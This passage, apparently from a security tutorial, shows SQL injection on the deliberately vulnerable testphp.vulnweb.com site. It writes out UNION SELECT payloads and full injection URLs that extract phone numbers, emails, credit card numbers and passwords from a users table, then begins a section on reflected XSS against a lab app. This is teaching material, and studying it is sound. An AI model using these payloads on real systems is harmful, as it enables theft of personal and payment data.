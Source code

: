 Tricking the Web app to execute the command: 

`http://testphp.vulnweb.com/artists.php?artist=-2 
union select 1,2,group_concat(phone) from users --`

## Get Email Address for Artist #2

The SQL command: 

`union select 1,2,group_concat(email) from users --`

Tricking the Web app to execute the command: 

`http://testphp.vulnweb.com/artists.php?artist=-2 
union select 1,2,group_concat(email) from users --`

## Get Credit Card Number for Artist #2

The SQL command: 

`union select 1,2,group_concat(cc) from users --`

Tricking the Web app to execute the command: 

`http://testphp.vulnweb.com/artists.php?artist=-2 
union select 1,2,group_concat(cc) from users --`

## Get User Password for Artist #2

The SQL command: 

`union select 1,2,group_concat(pass) from users --`

Tricking the Web app to execute the command: 

`http://testphp.vulnweb.com/artists.php?artist=-2 
union select 1,2,group_concat(pass) from users --`

This is why only hashes for passwords should be stored in application databases!

## Cross-Site Scripting (XSS)

Cross-Site Scripting (XSS) attacks take advantage of unexpected behavior in a Web app and combine it with social engineering to trick users. It is a major component of [phishing](https://en.wikipedia.org/wiki/Phishing).

### XSS Reflection Examples

We will use a purposefully-vulnerable Web application for this XSS attack. Like SQL injection, we will input markup and code that the application has not properly sanitized to create unexpected behavior. For XSS reflection attacks, we are forcing the Web app to "reflect" the code we send to it in the browser.

The vulnerable Web app: 

* [http://www.insecurelabs.org/task/Rule1](http://www.insecurelabs.org/task/Rule1)
